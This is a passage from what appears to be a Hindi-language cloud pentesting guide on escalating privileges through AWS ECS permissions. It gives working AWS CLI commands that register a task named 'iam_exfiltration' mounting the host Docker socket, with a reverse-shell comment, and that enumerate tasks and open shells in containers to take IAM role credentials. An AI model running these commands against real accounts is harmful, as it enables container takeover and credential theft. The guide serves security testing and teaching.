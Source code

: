 ```bash
]
}
]' > /tmp/task.json

printf '[
{
"name": "docker-socket",
"host": {
"sourcePath": "/var/run/docker.sock"
}
}
]' > /tmp/volumes.json


aws ecs register-task-definition --family iam_exfiltration \
--cpu 256 --memory 512 \
--requires-compatibilities '["EC2"]' \
--container-definitions file:///tmp/task.json \
--volumes file:///tmp/volumes.json


aws ecs run-task --task-definition iam_exfiltration \
--cluster arn:aws:ecs:us-east-1:947247140022:cluster/ecs-takeover-ecs_takeover_cgidc6fgpq6rpg-cluster \
--launch-type EC2

# You will need to do 'apt update' and 'apt install docker.io' to install docker in the rev shell
```
### `ecs:ExecuteCommand`, `ecs:DescribeTasks`, **`(ecs:RunTask|ecs:StartTask|ecs:UpdateService|ecs:CreateService)`**

एक हमलावर **`ecs:ExecuteCommand`, `ecs:DescribeTasks`** के साथ एक चल रहे कंटेनर में **कमांड चला सकता है** और इसके साथ जुड़ी IAM भूमिका को बाहर ले सकता है (आपको वर्णन अनुमतियों की आवश्यकता है क्योंकि `aws ecs execute-command` चलाने के लिए यह आवश्यक है)।\
हालांकि, इसे करने के लिए, कंटेनर इंस्टेंस को **ExecuteCommand एजेंट** चल रहा होना चाहिए (जो डिफ़ॉल्ट रूप से नहीं है)।

इसलिए, हमलावर को यह कोशिश कर सकता है:

* **हर चल रहे कंटेनर में एक कमांड चलाने की कोशिश करें**
```bash
# List enableExecuteCommand on each task
for cluster in $(aws ecs list-clusters | jq .clusterArns | grep '"' | cut -d '"' -f2); do
echo "Cluster $cluster"
for task in $(aws ecs list-tasks --cluster "$cluster" | jq .taskArns | grep '"' | cut -d '"' -f2); do
echo "  Task $task"
# If true, it's your lucky day
aws ecs describe-tasks --cluster "$cluster" --tasks "$task" | grep enableExecuteCommand
done
done

# Execute a shell in a container
aws ecs execute-command --interactive \
--command "sh" \
--cluster "$CLUSTER_ARN" \
--task "$TASK_ARN"
```
* अगर उसके पास **`ecs:RunTask`** है, तो `aws ecs run-task --enable-execute-command [...]` के साथ एक टास्क चलाएं।
* अगर उसके पास **`ecs:StartTask`** है, तो `aws ecs start-task --enable-execute-command [...]` के साथ एक टास्क चलाएं।
* अगर उसके पास **`ecs:CreateService`** है, तो `aws ecs create-service --enable-execute-command [...]` के साथ एक सेवा बनाएं।